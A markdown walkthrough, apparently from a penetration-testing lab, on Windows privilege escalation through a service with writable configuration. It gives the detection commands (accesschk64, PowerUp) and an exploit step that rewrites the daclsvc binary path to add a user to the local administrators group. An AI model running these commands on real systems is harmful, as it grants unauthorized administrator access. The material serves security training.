




# Service Binary Path

Service permission binary path exploitation involves locating services where our user has write access to the SERVICE_CHANGE_CONFIG. This access permission means we can overwrite the binary path (BINARY_PATH_NAME) with malicious commands, such as adding our user to the administrators local group.

## Step 1: Detection

### Using accesschk64.exe from `sysinternals`

The following will show all services where our current user has write access

```bash
C:\Users\user> cd Desktop\Tools\Accesschck
C:\Users\user\Desktop\Tools\Accesschck> accesschk64.exe -uwcv Everyone *
```

- `-u` : suppress errors, only return positive findings
- `-w` : only show objects with write access
- `-c` : display the service name
- `-v` : verbose output



The results show write access to SERVICE_CHANGE_CONFIG for the `daclsvc` which means we can overwrite the binary path.

We can get additional details if we query the `daclsvc` service directly

```bash
C:\Users\user\Desktop\Tools\Accesschck> sc qc daclsvc
```

### Detection with PowerUp.ps1

`Invoke-AllChecks` will also detect `daclsvc` as a vulnerable service

```bash
C:\Users\user\Desktop\Tools\PowerUp> powershell -ep bypass
C:\Users\user\Desktop\Tools\PowerUp> . .\PowerUp.ps1
C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```



## Step 2: Exploitation

We can exploit the write access to SERVICE_CHANGE_CONFIG by overwriting the BINARY_PATH_NAME to the command to add a user to the administrators local group

```bash
C:\Users\user\Desktop\Tools\Accesschck> sc config daclsvc binpath= "net localgroup administrators user /add"
```



Start the `daclsvc` service

```bash
sc start daclsvc
```

Even though we get a “FAILED” message, if we check the `administrators` local group we should see the `user` account


